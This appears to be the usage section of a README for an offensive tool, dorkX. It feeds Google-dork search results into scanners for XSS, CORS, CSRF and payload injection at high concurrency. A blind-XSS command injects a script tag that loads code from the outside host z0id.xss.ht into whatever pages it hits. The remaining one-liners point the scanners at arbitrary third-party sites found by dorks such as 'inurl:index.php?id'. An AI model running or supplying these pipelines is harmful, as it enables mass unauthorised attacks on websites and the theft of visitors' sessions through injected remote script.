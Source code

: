 #Blind XSS
 ./dorkX -dorks dorks.txt -concurrency 100 | dalfox pipe -b '"><script src=https://z0id.xss.ht></script>'
#XSS
./dorkx -dorks dorks.txt | dalfox pipe
./dorkx -dork "inurl:index.php?id" | dalfox pipe

#Cors
./dorkx -dorks dorks.txt | ./corsx
~/dorkX> ./dorkx -dork "inurl:index.php?id" | ./corsx

#CSRF
./dorkx -dorks dorks.txt | ./csrfx
./dorkx -dork "inurl:index.php?id" | ./csrf

#Payload Injection
./dorkx -dorks dorks.txt | ./zin -pL <payloadList>
./dorkx -dork "inurl:index.php?id" |./zin -p <payload>
